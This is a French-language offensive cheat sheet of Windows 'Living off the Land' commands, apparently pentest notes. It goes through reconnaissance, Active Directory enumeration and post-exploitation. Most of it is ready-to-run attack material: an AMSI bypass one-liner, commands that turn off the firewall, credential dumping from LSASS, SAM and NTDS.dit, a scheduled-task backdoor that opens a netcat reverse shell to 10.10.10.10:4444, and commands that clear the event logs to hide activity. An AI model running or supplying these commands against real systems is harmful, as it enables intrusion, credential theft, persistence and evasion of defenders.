

## 1. Reconnaissance de l'hôte

### Informations de base sur l'hôte

| Commande | Description | Privilèges |
| :--- | :--- | :--- |
| `hostname` | Affiche le nom de l'hôte. | User |
| `[System.Environment]::OSVersion.Version` | Affiche la version de Windows. | User |
| `systeminfo` | Récupère des infos sur l'OS, les correctifs installés, l'uptime, etc. | User |
| `wmic computersystem get Name,Domain,Manufacturer,Model,Username,Roles /format:List` | Détails sur le système et le domaine. | User |
| `wmic qfe get Caption,Description,HotFixID,InstalledOn` | Affiche les correctifs installés. | User |
| `whoami` | Affiche l'utilisateur courant. | User |
| `whoami /priv` | Liste les privilèges de l'utilisateur. | User |
| `whoami /groups` | Liste les groupes de l'utilisateur. | User |
| `echo %USERDOMAIN%` | Affiche le domaine auquel appartient l'hôte. | User |
| `echo %logonserver%` | Affiche le nom du Contrôleur de Domaine (DC) utilisé pour l'authentification. | User |
| `qwinsta` | Liste les sessions ouvertes sur l'hôte. | User |
| `query user` | Liste les utilisateurs connectés sur le système. | User |

## 2. Reconnaissance réseau

### Informations sur les interfaces réseau

| Commande | Description | Privilèges |
| :--- | :--- | :--- |
| `ipconfig /all` | Affiche les interfaces réseau et leur configuration. | User |
| `route print` | Affiche la table de routage. | User |
| `arp -a` | Liste les hôtes connus du cache ARP. | User |
| `netstat -ano` | Affiche les connexions actives et les ports écoutés. | User |
| `netsh advfirewall show allprofiles` | Affiche l'état du pare-feu Windows. | Admin |
| `netsh wlan show profiles` | Liste les réseaux Wi-Fi enregistrés. | User |

## 3. Énumération Active Directory

> [!note] Prérequis
> Les commandes **Get-AD*** nécessitent les **RSAT** installés ou le module **ActiveDirectory** chargé.

### Informations sur le domaine et les utilisateurs

| Commande | Description | Privilèges |
| :--- | :--- | :--- |
| `net group /domain` | Liste les groupes du domaine. | User |
| `net user /domain` | Liste les utilisateurs du domaine. | User |
| `net group "Domain Admins" /domain` | Liste les administrateurs du domaine. | User |
| `net group "Domain Controllers" /domain` | Liste les contrôleurs de domaine. | User |
| `dsquery user` | Recherche des utilisateurs dans AD. | User |
| `dsquery computer` | Recherche des machines dans AD. | User |
| `dsquery group` | Recherche des groupes dans AD. | User |
| `dsquery * -filter "(&(objectCategory=person)(objectClass=user))" -limit 5 -attr sAMAccountName` | Liste les 5 premiers utilisateurs AD. | User |
| `gpresult /R` | Affiche les GPO appliquées à l'utilisateur et à la machine. | User |
| `wmic useraccount list /format:list` | Liste les comptes utilisateurs locaux et de domaine connectés. | Admin |

## 4. Évasion des défenses

### Bypass des restrictions PowerShell

> [!danger] Attention
> L'utilisation de **Set-ExecutionPolicy** nécessite des privilèges élevés.

> [!danger] Danger
> Le downgrade PowerShell v2 est souvent bloqué par les politiques de sécurité modernes (**Constrained Language Mode**).

| Commande | Description | Privilèges |
| :--- | :--- | :--- |
| `Get-ExecutionPolicy -List` | Affiche les politiques d'exécution PowerShell. | User |
| `Set-ExecutionPolicy Bypass -Scope Process` | Désactive les restrictions temporairement. | Admin |
| `powershell.exe -version 2` | Downgrade vers PowerShell v2 pour éviter la journalisation. | User |

### Techniques de bypass AMSI

Le bypass AMSI (Antimalware Scan Interface) est crucial pour exécuter des scripts malveillants en mémoire.

```powershell
# Exemple de technique de patch en mémoire (via réflexion)
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

### Désactivation de Windows Defender et du pare-feu

| Commande | Description | Privilèges |
| :--- | :--- | :--- |
| `sc query windefend` | Vérifie si Windows Defender est actif. | User |
| `Get-MpComputerStatus` | Affiche la configuration de Windows Defender. | Admin |
| `netsh advfirewall set allprofiles state off` | Désactive le pare-feu Windows. | Admin |

## 5. Post-exploitation et mouvements latéraux

### Énumération de privilèges (Token Manipulation)

L'énumération des privilèges permet d'identifier les opportunités d'élévation via **Windows Privilege Escalation**.

| Commande | Description | Privilèges |
| :--- | :--- | :--- |
| `whoami /priv` | Vérifie la présence de SeImpersonatePrivilege ou SeAssignPrimaryTokenPrivilege. | User |
| `tasklist /v` | Liste les processus avec leurs utilisateurs associés pour identifier des cibles de vol de jeton. | User |

### Dump de credentials (LSASS, SAM, NTDS.dit)

Ces techniques sont détaillées dans la note **Credential Dumping**.

| Méthode | Commande / Action | Privilèges |
| :--- | :--- | :--- |
| **LSASS (comsvcs)** | `rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump <PID> lsass.dmp full` | Admin |
| **SAM/SYSTEM** | `reg save HKLM\SAM sam.save` et `reg save HKLM\SYSTEM system.save` | Admin |
| **NTDS.dit** | `ntdsutil "ac i ntds" "ifm" "cr fu c:\temp" q q` | Admin |

### Récupération d'informations sensibles

| Commande | Description | Privilèges |
| :--- | :--- | :--- |
| `Get-Content $env:APPDATA\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt` | Récupère l'historique des commandes PowerShell. | User |
| `findstr /si password *.txt` | Recherche des fichiers contenant "password". | User |
| `dir /s /b /a *password*` | Liste les fichiers contenant "password". | User |

### Partages réseau et mouvements latéraux

| Commande | Description | Privilèges |
| :--- | :--- | :--- |
| `net view /domain` | Liste les machines du domaine. | User |
| `net share` | Affiche les partages locaux. | User |
| `net use X: \\computer\share` | Monte un partage distant. | User |
| `wmic process list /format:list` | Liste les processus en cours d'exécution. | User |

## 6. Commandes diverses pour la persistance

> [!warning] Risque
> La modification de tâches planifiées ou de services est hautement détectable par les solutions **EDR**.

| Commande | Description | Privilèges |
| :--- | :--- | :--- |
| `schtasks /query /fo LIST /v` | Liste les tâches planifiées. | User |
| `schtasks /create /tn "Backdoor" /tr "cmd.exe /c nc.exe -e cmd 10.10.10.10 4444" /sc onstart /ru SYSTEM` | Crée une tâche planifiée malveillante. | Admin |
| `wmic service list full` | Liste les services en cours d'exécution. | User |
| `wmic ntdomain list /format:list` | Informations sur le domaine et les DCs. | User |

### Énumération avancée des administrateurs

```powershell
Get-ADGroupMember -Identity "Administrators" -Recursive | Get-ADUser -Property Description | Select-Object Name,Enabled,Description
```

## 7. Nettoyage de traces (Event Logs)

Le nettoyage des traces est essentiel pour éviter la détection après l'exécution de commandes LotL.

| Commande | Description | Privilèges |
| :--- | :--- | :--- |
| `wevtutil cl System` | Efface le journal des événements système. | Admin |
| `wevtutil cl Security` | Efface le journal des événements de sécurité. | Admin |
| `wevtutil cl Application` | Efface le journal des événements d'application. | Admin |
| `Clear-EventLog -LogName PowerShell` | Efface les logs PowerShell. | Admin |

Ces techniques de **Living Off the Land** (LotL) s'inscrivent dans les phases de post-exploitation, d'énumération **Active Directory** et de maintien de la **Persistence Techniques**. Elles complètent les approches liées au **Credential Dumping** et à l'**Windows Privilege Escalation**.